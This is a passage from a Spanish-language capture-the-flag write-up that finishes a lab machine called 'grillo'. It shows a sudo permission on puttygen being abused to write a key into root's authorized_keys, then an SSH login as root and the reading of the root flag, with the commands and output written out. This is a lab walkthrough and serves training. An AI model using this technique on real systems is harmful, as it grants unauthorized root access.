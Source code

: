 Ahora, utilicemos **puttygen** para convertir la llave privada que se generó con **ssh-keygen** en una llave pública dentro del directorio `.ssh/authorized_keys` del **usuario Root**:
```bash
melanie@grillo:~$ sudo puttygen /home/melanie/.ssh/id_rsa -O public-openssh -o /root/.ssh/authorized_keys
Enter passphrase to load key:
```
Funciono.

Copiemos la llave privada en nuestra máquina:
```bash
scp melanie@192.168.1.100:/home/melanie/.ssh/id_rsa .
melanie@192.168.1.100's password: 
id_rsa
```

Y usamos esa llave para autenticarnos como **Root**:
```bash
ssh -i id_rsa root@192.168.1.100
Enter passphrase for key 'id_rsa': 
Linux grillo 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64
.
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb 11 21:42:05 2025
root@grillo:~# whoami
root
```
Excelente, funciono correctamente.

Ya solo buscamos la flag del **Root**:
```bash
root@grillo:~# ls
root.txt
root@grillo:~# cat root.txt
...
```
Y con esto completamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.ssh.com/academy/ssh/putty/linux/puttygen
* https://askubuntu.com/questions/15378/how-do-i-install-an-ssh-private-key-generated-by-puttygen


<br>
